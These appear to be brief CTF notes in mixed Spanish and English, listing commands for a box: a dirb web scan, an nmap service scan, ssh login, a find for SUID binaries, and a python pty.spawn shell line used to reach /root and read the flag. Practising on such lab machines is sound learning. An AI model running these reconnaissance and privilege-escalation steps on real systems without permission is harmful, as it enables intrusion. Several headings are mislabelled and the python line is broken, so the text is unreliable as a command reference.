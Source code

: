 # dirb
Escanea contenido web
```console
dirb http://direction
```

if direction is listable access

## nmap
use to discober ports
```console
nmap -sV ip
```

## nmap
use to discober ports
```console
ssh user@ip
```


## nmap
encotrar programas que podemos ejecutar
```console
find / -perm -u=s -type f 2>/dev/null
```

## python for change root
obtain provileges
```console
python2.7 -c 'import pty:pty.spawn("/bin/sh")''
```

cd /root
ls
see flag

https://www.youtube.com/watch?v=fb4A4uyPPjQ

